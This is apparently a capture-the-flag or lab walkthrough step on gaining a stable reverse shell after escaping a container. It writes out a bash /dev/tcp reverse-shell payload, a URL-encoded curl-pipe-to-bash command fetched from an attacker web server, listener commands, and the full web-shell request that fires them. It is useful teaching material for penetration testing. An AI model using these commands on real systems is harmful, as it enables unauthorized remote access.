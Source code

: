 
Now that you have escaped the container and have RCE on the host, you need to create a reverse shell and obtain a way to gain a stable shell onto the box.  

There are several ways to obtain a reverse shell on a box once you have RCE. Outlined below are a few of the most common methods used.  

- netcat
- bash
- python
- perl

For more information about various payloads and reverse shells, you can use check out these two resources. [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

In this task, we will be covering how to use a basic bash reverse shell along with URL encoding to drop a script directly into bash. Using URL encoding to our advantage, we can ease much pain when executing a payload as often special characters such as `&, ', !, ;, ?` will cause serious issues.  

To begin, we will create a simple payload by placing the below code into a `.sh` file.

`#!/bin/bash`   
`bash -i >& /dev/tcp/tun0ip/53 0>&1`

The first line will declare that we are using the bash scripting language. The second line is the payload itself. For more information about this payload, check out this explain shell, [https://explainshell.com/explain?cmd=bash+-i+>%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0>%261](https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0%3E%261).  

Now that you have the payload ready to go, you can start up a local web server on your attacking machine using either _http.server_ or _updog_ or _php_. You can find example usage for all three below.  

- `python3 -m http.server 80`
- `updog`
- `php -S 0.0.0.0:80`

Once you have a server started hosting the file, we can compile a command to execute the file. Find the command below.  

Unencoded command: `curl http://10.x.x.x:80/bash.sh|bash &`

As we have already mentioned, special characters can cause issues within URLs. To combat this, we can utilize URL encoding on any special characters. Find the encoded command below.

Encoded command: `curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26`

The above command is entirely ready to go. You will only need to change the IP address and the file name within the command; this does not require you to change any of the URL encoding present.

You can now start a listener using Netcat or Metasploit to catch your reverse shell once executed. Find commands below to start listeners.  

- `nc -lvnp 53`
- `use exploit/multi/handler`

Now that you have the full payload and execution command ready, you can use it and the RCE to gain a shell onto the box. Find the full command below.  

Command used: `curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26'`


---

# Your job
